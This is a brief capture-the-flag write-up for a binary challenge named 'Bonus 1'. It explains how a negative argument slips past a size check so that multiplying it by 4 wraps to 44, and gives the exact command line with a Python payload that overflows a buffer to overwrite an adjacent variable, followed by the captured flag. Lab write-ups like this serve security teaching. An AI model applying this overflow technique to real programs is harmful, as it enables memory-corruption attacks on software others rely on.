 # Bonus 1

The program use atoi on a number, checks if it is under 10 THEN multiplies it by 4 and we would like it to be 44 characters so we can overflow from the str buffer into the n variable and write what we need in there. So we find a number that is under 10 and that, when multiplied by 4 is over 44 with our little test program.

`./a.out -2147483637`
`44`

And now we just write after str direcrly in n the thing we need to write in there.

`./bonus1  -2147483637 $(python -c 'print "N" * 40 + "\x46\x4c\x4f\x57"')`

**Flag:** `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`
